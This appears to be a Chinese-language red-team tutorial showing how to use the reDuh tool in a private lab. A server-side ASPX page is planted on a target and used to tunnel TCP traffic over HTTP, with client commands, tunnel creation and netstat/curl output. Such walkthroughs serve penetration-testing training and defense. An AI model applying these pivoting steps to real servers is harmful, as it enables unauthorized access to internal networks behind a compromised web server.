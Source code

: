 

**reDuh简介：**

reDuh是sensepost由2008-07年发布，从本质上讲，可以将JSP/PHP/ASP/ASPX等页面上传到目标服务器，便可以访问该服务器后面的主机。

BlackHat USA 2008介绍：  
https://drive.google.com/open?id=1AqmtuBnHQJS-FjVHzJMNNWokda048By-

Github：  
https://github.com/sensepost/reDuh

**攻击机：**   
192.168.1.5 Debian  
192.168.1.4 Windows 7

**靶机：**   
192.168.1.119 Windows 2003

**安装：**
```bash
root@John:~# git clone https://github.com/sensepost/reDuh.git
Cloning into 'reDuh'...
remote: Enumerating objects: 47, done.
remote: Total 47 (delta 0), reused 0 (delta 0), pack‐reused 47
Unpacking objects: 100% (47/47), done.
root@John:~# cd reDuh/
root@John:~/reDuh# ls
README.markdown reDuhClient reDuhServers
```
![](media/1baa9c1874d47e57ff19724c1e050dd8.jpg)

**靶机执行：**
以aspx为demo。

![](media/853cde273f8ee0873156e9c624258201.jpg)

**攻击机执行：**  
绑定端口：
```bash
root@John:~/reDuh/reDuhClient/dist# java ‐jar reDuhClient.jar http://192.168.1.119/reDuh.aspx
[Info]Querying remote web page for usable remote service port
[Info]Remote RPC port chosen as 42000
[Info]Attempting to start reDuh from 192.168.1.119:80/reDuh.aspx. Using service port 42000. Please wait...
[Info]reDuhClient service listener started on local port 1010
```
![](media/2596f6edba3d76db9a416b2011e8fb9b.jpg)

开启新terminal，建立隧道  
命令如下：  
[createTunnel][本地绑定端口]:  127.0.0.1:[远程端口]  
```bash
root@John:~# telnet 127.0.0.1 1010
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
Welcome to the reDuh command line
>>[createTunnel]30080:127.0.0.1:80
Successfully bound locally to port 30080. Awaiting connections.
```
![](media/9a14208cab4886588559a38d694a5cf1.jpg)

攻击机端口前后对比：
```bash
root@John:~# netstat ‐ntlp
Active Internet connections (only servers)
Proto Recv‐Q Send‐Q Local Address Foreign Address State PID/Program na me
tcp 0 0 0.0.0.0:902 0.0.0.0:* LISTEN 809/vmware‐authdlau
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN 674/sshd
tcp6 0 0 :::902 :::* LISTEN 809/vmware‐authdlau
tcp6 0 0 :::22 :::* LISTEN 674/sshd
root@John:~# netstat ‐ntlp
Active Internet connections (only servers)
Proto Recv‐Q Send‐Q Local Address Foreign Address State PID/Program na me
tcp 0 0 0.0.0.0:902 0.0.0.0:* LISTEN 809/vmware‐authdlau
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN 674/sshd
tcp6 0 0 :::902 :::* LISTEN 809/vmware‐authdlau
tcp6 0 0 :::1010 :::* LISTEN 6102/java
tcp6 0 0 :::22 :::* LISTEN 674/sshd
tcp6 0 0 :::30080 :::\* LISTEN 6102/java 
```
![](media/525c8fec46511f49176e20b50a017226.jpg)

访问攻击机30080端口，既等价于访问靶机80端口
```bash
root@John:~# curl http://192.168.1.5:30080/
<html> 

<head>
<meta HTTP‐EQUIV="Content‐Type" Content="text/html; charset=gb2312"> 

<title ID=titletext>建设中</title>

</head> 

<body bgcolor=white> 

... 

</body>

</html>
```
![](media/4594e609d339d06fe44ecf11a575c966.jpg)


遗憾的是reDuh年代久远，使用繁琐，并官方已停止维护。但是它奠定了HTTP隧道。

>   Micropoor

